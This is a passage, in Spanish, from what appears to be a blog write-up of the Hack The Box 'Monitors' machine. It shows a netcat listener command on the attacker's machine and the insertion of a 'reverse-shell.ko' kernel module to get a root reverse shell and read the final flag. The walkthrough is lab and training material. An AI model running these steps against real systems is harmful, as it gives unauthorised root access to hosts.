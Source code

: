 Ahora, nos pondremos en escucha en nuestra máquina de atacante utilizando `Netcat` en el puerto que definimos en `reverse-shell.c`:

```
nc -nlvp 4444
```

Finalmente, inyectaremos el módulo en el kernel usando:

```
insmod reverse-shell.ko
```

Al ejecutar este comando, obtendremos una _reverse shell_ en la máquina anfitriona, esta vez con privilegios de `root`, lo que nos permitirá listar la última flag.

![66](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/main/assets/2024-10-21-Monitors-Hack-The-Box/66.png){:class="blog-image" onclick="expandImage(this)"}
